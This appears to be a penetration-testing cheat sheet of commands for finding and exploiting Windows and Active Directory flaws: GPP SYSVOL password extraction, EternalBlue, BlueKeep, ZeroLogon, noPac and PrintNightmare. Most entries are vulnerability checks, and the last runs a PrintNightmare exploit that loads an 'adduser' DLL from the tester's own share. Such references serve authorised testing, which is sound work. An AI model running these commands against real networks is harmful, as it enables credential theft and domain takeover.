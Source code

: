 # CVE

## Check & Exploit GPP SYSVOL (MS14-025) - cme

```
cme smb <domain-controller> -u <user> -p <password> -d <domain> -M gpp_password
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check & Exloit GPP SYSVOL (MS14-025) - msf

```
msfconsole -x "use scanner/smb/smb_enum_gpp;set RHOST <domain-controller>;set SMBDomain <domain>;set SMBUser <user>;set SMBPass <password>"
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check SMB vulnerabilities - nmap

```
nmap -Pn --script smb-vuln* -p139,445 -iL <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - cme

```
cme smb <target> -M ms17
```

= target: $TARGETS/computers.list

## Check BlueKeep (CVE-2019-0708) - script

```
rdpscan <target>
```

= target: $TARGETS/computers.list

## Check Eternal Blue (MS17-010) - nmap

```
nmap -Pn --script smb-vuln-ms17-010 -p139,445 <target>
```

= target: $TARGETS/computers.list

## Check Zero Logon (CVE-2020-1472) - cme

```
cme smb <domain-controller> -M zerologon
```

= domain-controller: $DC

## Check noPac (CVE-2021-42278 and CVE-2021-42287) - cme

```
cme smb <domain-controller> -u <user> -p <password> -d <domain> -M nopac
```

= domain-controller: $DC
= user: $USER
= password: $PASSWORD
= domain: $DOMAIN

## Check Print Nightmare with Docker (CVE-2021-34527) - docker

```
docker run -v "<target>:/target.txt"-it itwasalladream -u <user> -p <password> -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Check Print Nightmare with local install (CVE-2021-34527) - script

```
itwasalladream -u <user> -p <password> -d <domain> target.txt
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
= target: $TARGETS/computers.list

## Exploit Print Nightmare (CVE-2021-34527) - script

```
CVE-2021-1675 <domain>/<user>:<password>@<target> '\\<my_ip>\public\adduser.dll'
```

= user: $USER
= password: $PASSWORD
= domain: $DOMAIN
